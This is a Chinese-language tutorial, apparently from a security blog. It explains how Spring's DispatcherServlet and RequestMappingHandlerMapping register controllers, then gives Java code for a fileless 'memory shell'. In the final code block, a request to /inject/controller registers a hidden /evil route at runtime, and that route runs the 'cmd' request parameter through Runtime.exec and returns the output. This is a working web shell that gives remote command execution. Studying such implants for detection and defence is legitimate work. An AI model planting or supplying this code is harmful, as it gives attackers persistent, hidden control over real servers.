# Spring Controller内存马

## 搭建Spring Boot项目

通过start.aliyun.com创建Spring Boot项目，版本选择2.4.2，必须添加Spring Web组件才能处理Web请求。



之后点击下方的获取代码，下载到本地后解压zip，并用IDEA开发工具打开，项目结构如下：



## 编写Controller代码



```java
@RestController
public class MyController {
    @RequestMapping("/index")
    public String index() {
        return "index";
    }
}
```

运行DemoApplication，并在浏览器访问localhost:8080/index查看效果



## 调试程序

我们的目的是在程序运行时动态加入一个Controller，为了达到这个目的，我们就需要搞清楚Controller的注册过程。

在刚刚写的MyController中打个断点，并已调式模式重新运行DemoApplication



请求流程：

1. 请求首先经过Tomcat的Filter链
2. 进入Spring的DispatcherServlet
3. 根据请求找到对应的处理方法



## 请求映射处理器类分析

所以将请求映射到正确的Controller方法是在DispatcherServlet的doDispatch方法中实现的，于是我们重点分析这个方法。



我们发现根据请求映射到对应的Controller方法这个操作具体将请求传入getHandle()方法，getHandle()就会返回正确的Controller方法。所以我们继续进入getHandle()方法一探究竟。



这段代码是什么意思呢，就是有一个handlerMappings列表，这个list中有多个xxxMapping



如果这5个mapping中的mapping对象中任意一个的getHandler方法能返回处理当前请求的handler，则直接返回此handler。如果所有mapping的getHandler方法都不能返回处理此请求的对应handler，则返回null。

在return handler;这行打上断点，看看是哪个mapping找到了/index对应的Controller方法



发现了，这个Mapping对象是RequestMappingHandlerMapping类。

看看RequestMappingHandlerMapping.getHandler()方法体中写了什么。

发现RequestMappingHandlerMapping.getHandler()方法体来自RequestMappingHandlerMapping的父类AbstractHandlerMapping.getHandler实现。



继续跟踪进AbstractHandlerMethodMapping.getHandlerInternal()查看实现



继续查看lookupHandlerMethod()的实现



关注方法第二行出现的mappingRegistry属性，在调式窗口中查看这个属性存储了什么，发现mappingRegister是一个map，存储了路径和RequestMappingInfo对象的映射关系。好了，接下来我们就需要搞清楚我们怎么自己在这个map中注册一个处理方法，并且映射到指定路径上。

在同一个类中注意到还存在AbstractHandlerMethodMapping.registerHandlerMethod()方法。那么我们只需要调用这个方法即可注册自己的Controller方法进去。



问题变成了在Spring程序运行中怎么拿到AbstractHandlerMethodMapping子类实例对象，比如RequestMappingHandlerMapping，因为刚刚调试的过程中看到RequestMappingHandlerMapping对象实例是存在的，并且获取到了/index对应的Controller方法的，还有就是父类有的方法RequestMappingHandlerMapping作为子类肯定也有。

注入代码如下：

```java
@RestController
public class MyController {
    @RequestMapping("/hello")
    public String hello()
    {
        return "hello world";
    }
    @RequestMapping("/inject/controller")
    public String injectController() throws NoSuchMethodException {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.getRequestAttributes().getAttribute(DispatcherServlet.WEB_APPLICATION_CONTEXT_ATTRIBUTE,0);
        RequestMappingHandlerMapping mapping = context.getBean(RequestMappingHandlerMapping.class);
        InjectController injectController = new InjectController();
        RequestMappingInfo info = new RequestMappingInfo(
                new PatternsRequestCondition("/evil"),
                new RequestMethodsRequestCondition(),
                null, null, null, null, null);

        mapping.registerMapping(info,injectController, injectController.getClass().getMethod("evil"));
        return "inject controller success";
    }
 	@RestController
    public class InjectController {
        public String evil() throws IOException {
            HttpServletRequest request = ((ServletRequestAttributes)RequestContextHolder.getRequestAttributes()).getRequest();
            String cmd = request.getParameter("cmd");
            Runtime r = Runtime.getRuntime();
            StringBuilder sb = new StringBuilder();
            try{
                Process proc = r.exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(proc.getInputStream()));
                String line = null;
                while ((line = reader.readLine()) != null){
                    sb.append(line).append("\n");
                }
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
            return sb.toString();
        }
    }
}
```

‍
